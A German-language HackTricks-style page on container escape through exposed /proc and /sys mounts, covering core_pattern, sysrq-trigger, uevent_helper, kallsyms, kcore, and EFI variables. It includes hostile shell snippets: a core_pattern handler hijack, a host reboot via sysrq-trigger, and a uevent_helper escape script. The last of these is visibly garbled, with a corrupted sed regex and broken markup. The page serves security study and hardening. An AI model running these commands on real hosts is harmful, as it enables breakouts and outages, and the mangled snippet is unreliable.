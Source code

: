 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

Die Offenlegung von `/proc` und `/sys` ohne angemessene Namensraum-Isolierung bringt erhebliche Sicherheitsrisiken mit sich, einschließlich einer Vergrößerung der Angriffsfläche und der Offenlegung von Informationen. Diese Verzeichnisse enthalten sensible Dateien, die, wenn sie falsch konfiguriert oder von einem unbefugten Benutzer zugegriffen werden, zu einem Container-Ausbruch, Host-Modifikationen oder zur Bereitstellung von Informationen führen können, die weitere Angriffe unterstützen. Zum Beispiel kann das falsche Einbinden von `-v /proc:/host/proc` den AppArmor-Schutz aufgrund seiner pfadbasierten Natur umgehen und `/host/proc` ungeschützt lassen.

**Weitere Details zu jeder potenziellen Schwachstelle finden Sie unter** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Schwachstellen

### `/proc/sys`

Dieses Verzeichnis erlaubt den Zugriff zur Modifikation von Kernel-Variablen, normalerweise über `sysctl(2)`, und enthält mehrere besorgniserregende Unterverzeichnisse:

#### **`/proc/sys/kernel/core_pattern`**

- Beschrieben in [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Ermöglicht die Definition eines Programms, das bei der Erzeugung von Kern-Dateien mit den ersten 128 Bytes als Argumente ausgeführt wird. Dies kann zu einer Codeausführung führen, wenn die Datei mit einer Pipe `|` beginnt.
- **Test- und Ausbeutungsbeispiel**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test auf Schreibzugriff
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Benutzerdefinierten Handler festlegen
sleep 5 && ./crash & # Handler auslösen
```

#### **`/proc/sys/kernel/modprobe`**

- Detailliert in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Enthält den Pfad zum Kernel-Modul-Lader, der zum Laden von Kernel-Modulen aufgerufen wird.
- **Zugriffsprüfung Beispiel**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Zugriff auf modprobe überprüfen
```

#### **`/proc/sys/vm/panic_on_oom`**

- Referenziert in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Ein globales Flag, das steuert, ob der Kernel panikt oder den OOM-Killer aufruft, wenn eine OOM-Bedingung auftritt.

#### **`/proc/sys/fs`**

- Laut [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) enthält es Optionen und Informationen über das Dateisystem.
- Schreibzugriff kann verschiedene Denial-of-Service-Angriffe gegen den Host ermöglichen.

#### **`/proc/sys/fs/binfmt_misc`**

- Ermöglicht die Registrierung von Interpretern für nicht-native Binärformate basierend auf ihrer Magic-Nummer.
- Kann zu einer Privilegieneskalation oder Root-Shell-Zugriff führen, wenn `/proc/sys/fs/binfmt_misc/register` beschreibbar ist.
- Relevante Exploit- und Erklärung:
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- Ausführliches Tutorial: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Weitere in `/proc`

#### **`/proc/config.gz`**

- Kann die Kernel-Konfiguration offenbaren, wenn `CONFIG_IKCONFIG_PROC` aktiviert ist.
- Nützlich für Angreifer, um Schwachstellen im laufenden Kernel zu identifizieren.

#### **`/proc/sysrq-trigger`**

- Ermöglicht das Auslösen von Sysrq-Befehlen, was möglicherweise sofortige Systemneustarts oder andere kritische Aktionen verursacht.
- **Beispiel für Neustart des Hosts**:

```bash
echo b > /proc/sysrq-trigger # Neustart des Hosts
```

#### **`/proc/kmsg`**

- Gibt Nachrichten des Kernel-Ringpuffers aus.
- Kann bei Kernel-Exploits, Adresslecks helfen und sensible Systeminformationen bereitstellen.

#### **`/proc/kallsyms`**

- Listet vom Kernel exportierte Symbole und deren Adressen auf.
- Essentiell für die Entwicklung von Kernel-Exploits, insbesondere um KASLR zu überwinden.
- Adressinformationen sind eingeschränkt, wenn `kptr_restrict` auf `1` oder `2` gesetzt ist.
- Details in [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Schnittstelle zum Kernel-Speichergerät `/dev/mem`.
- Historisch anfällig für Privilegieneskalationsangriffe.
- Mehr zu [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Stellt den physischen Speicher des Systems im ELF-Core-Format dar.
- Das Lesen kann Inhalte des Host-Systems und anderer Container offenbaren.
- Große Dateigröße kann zu Leseproblemen oder Softwareabstürzen führen.
- Detaillierte Nutzung in [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternative Schnittstelle für `/dev/kmem`, die den virtuellen Speicher des Kernels darstellt.
- Ermöglicht das Lesen und Schreiben, somit die direkte Modifikation des Kernel-Speichers.

#### **`/proc/mem`**

- Alternative Schnittstelle für `/dev/mem`, die physischen Speicher darstellt.
- Ermöglicht das Lesen und Schreiben, die Modifikation des gesamten Speichers erfordert die Auflösung von virtuellen zu physischen Adressen.

#### **`/proc/sched_debug`**

- Gibt Informationen zur Prozessplanung zurück und umgeht die PID-Namensraum-Schutzmaßnahmen.
- Gibt Prozessnamen, IDs und cgroup-Identifikatoren preis.

#### **`/proc/[pid]/mountinfo`**

- Bietet Informationen über Einhängepunkte im Namensraum des Prozesses.
- Gibt den Standort des Container `rootfs` oder Images preis.

### `/sys` Schwachstellen

#### **`/sys/kernel/uevent_helper`**

- Wird zur Handhabung von Kernel-Gerät `uevents` verwendet.
- Das Schreiben in `/sys/kernel/uevent_helper` kann beliebige Skripte bei `uevent`-Auslösungen ausführen.
- **Beispiel für Ausbeutung**: %%%bash

#### Erstellt eine Payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Findet den Host-Pfad vom OverlayFS-Mount für den Container

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### Setzt uevent_helper auf schädlichen Helper

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### Löst ein uevent aus

echo change > /sys/class/mem/null/uevent

#### Liest die Ausgabe

cat /output %%%

#### **`/sys/class/thermal`**

- Steuert Temperatureinstellungen, was möglicherweise DoS-Angriffe oder physische Schäden verursachen kann.

#### **`/sys/kernel/vmcoreinfo`**

- Leckt Kernel-Adressen, was KASLR gefährden kann.

#### **`/sys/kernel/security`**

- Beherbergt die `securityfs`-Schnittstelle, die die Konfiguration von Linux-Sicherheitsmodulen wie AppArmor ermöglicht.
- Der Zugriff könnte es einem Container ermöglichen, sein MAC-System zu deaktivieren.

#### **`/sys/firmware/efi/vars` und `/sys/firmware/efi/efivars`**

- Gibt Schnittstellen für die Interaktion mit EFI-Variablen im NVRAM preis.
- Fehlkonfiguration oder Ausbeutung kann zu unbrauchbaren Laptops oder nicht bootfähigen Host-Maschinen führen.

#### **`/sys/kernel/debug`**

- `debugfs` bietet eine "keine Regeln"-Debugging-Schnittstelle zum Kernel.
- Geschichte von Sicherheitsproblemen aufgrund seiner uneingeschränkten Natur.

### Referenzen

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
